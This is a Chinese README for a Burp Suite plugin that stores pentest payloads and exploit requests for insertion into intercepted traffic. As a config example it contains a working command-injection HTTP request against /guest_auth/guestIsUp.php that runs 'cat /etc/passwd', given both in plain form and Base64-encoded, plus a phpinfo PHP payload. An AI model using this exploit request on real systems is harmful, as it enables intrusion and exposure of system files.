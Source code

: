 ## 哆啦A梦的四次元口袋



### 前言

1、在渗透测试或挖 SRC 的时候每次都需要在笔记中复制一些 Payload 或 Webshell 内容觉得太麻烦了，所以打算 **抄一个** Burpsuite 插件，直接在 Burpsuite 中插入内容就简单多了。

2、在复现一些Http 请求的漏洞，每次都需要在笔记复制exp或写个简单的 python 脚本觉得太麻烦了，如果在 Burpsuite 中直接修改请求包就简单多了，所以就命名该Burpsuite 插件为 **哆啦A梦的四次元口袋** 吧。



### 使用

![1](./images/1.gif)

加载插件会在 Burpsuite 目录下新建了一个目录和三个文件

```
DAM_Config:
|_exp.yaml
|_payload.yaml
|_tmp.txt
```

可以使用 sublime text 来修改 exp.yaml 和 payload.yaml （**yaml 语法**），现在主要写了新增的功能。

#### exp.yaml 文件

获取 host 和 Cookie **修改整个数据包**（如果 Repeater 没有 Target 就使用不了）

host 和 cookie 的位置使用占位符 `%s`  ,  如果是未授权的就不需要 cookie。

```
POST /guest_auth/guestIsUp.php HTTP/1.1 
Host: %s
Connection: close Upgrade-Insecure-Requests: 1 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4183.121 Safari/537.36 
Cookie: %s
Content-Type: application/x-www-form-urlencoded 
Content-Length: 56 

mac=1&ip=127.0.0.1|cat /etc/passwd > test.txt
```

然后把 exp   **Base64编码**

```
UE9TVCAvZ3Vlc3RfYXV0aC9ndWVzdElzVXAucGhwIEhUVFAvMS4xIApIb3N0OiAlcwpDb25uZWN0aW9uOiBjbG9zZSBVcGdyYWRlLUluc2VjdXJlLVJlcXVlc3RzOiAxIApVc2VyLUFnZW50OiBNb3ppbGxhLzUuMCAoV2luZG93cyBOVCAxMC4wOyBXaW42NDsgeDY0KSBBcHBsZVdlYktpdC81MzcuMzYgKEtIVE1MLCBsaWtlIEdlY2tvKSBDaHJvbWUvODUuMC40MTgzLjEyMSBTYWZhcmkvNTM3LjM2IApDb29raWU6ICVzCkNvbnRlbnQtVHlwZTogYXBwbGljYXRpb24veC13d3ctZm9ybS11cmxlbmNvZGVkIApDb250ZW50LUxlbmd0aDogNTYgCgptYWM9MSZpcD0xMjcuMC4wLjF8Y2F0IC9ldGMvcGFzc3dkID4gdGVzdC50eHQ=
```



#### payload.yaml 文件

该文件是把 **Payload 插入到数据包中**

```
<?php phpinfo();?>
```

需要把 payload  Base64 编码

```
PD9waHAgcGhwaW5mbygpOz8+
```

更多玩法自己挖掘

![1](./images/1.png)

### 参考

https://github.com/d3vilbug/HackBar
